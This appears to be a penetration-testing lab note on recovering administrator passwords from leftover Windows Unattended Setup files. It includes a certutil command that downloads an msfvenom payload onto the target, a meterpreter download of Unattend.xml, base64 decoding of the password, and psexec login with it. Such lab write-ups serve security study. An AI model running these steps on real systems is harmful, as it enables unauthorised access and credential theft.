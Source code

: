 # Searching For Passwords In Windows Configuration Files

* Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
* This is typically done through the use of the Unattendeed Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
* This tool utilizes configuration files that contain specificconfigurations and user account credentials, specifically the Administrator account's password.
* If the Unattended Windows Setup configuration files are left on the target system after instalation, they can reveal user accout credentials that can be used by attacker to authenticate with Windows target legitimately.

## Unattended Windows Setup

* The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
  * <mark style="color:red;">C:\Windows\Panther\Unattend.xml</mark>
  * <mark style="color:red;">C:\Windows\Panther\Autounattend.xml</mark>
* As a security precaution, the password stored in the Unattended Windows Setup configuration file may be encoded in base64.

## Practical Demo

In this case we generated a payload with msfvenom...used python simple server to share it thorugh a webserver. And downloaded it through the GUI interface given to us by the lab.

#### Download file from apache server:

* <mark style="color:yellow;">certutil -urlcache -f http://targetIP/nameofpayload</mark>

Started a multi/handler in attacker machine with the same configs as the msfvenom payload.

After gaining meterpreter session on target, download <mark style="color:red;">Unattend.xml</mark>

* <mark style="color:yellow;">download Unattend.xml</mark>

Search for the <mark style="color:red;">AutoLogon</mark> line and the value of <mark style="color:red;">password</mark>.

If it comes in base64 decode it with:

* <mark style="color:yellow;">base64 -d password.txt</mark>

Use <mark style="color:red;">psexec python script</mark> to attempt login with obtained credentials.
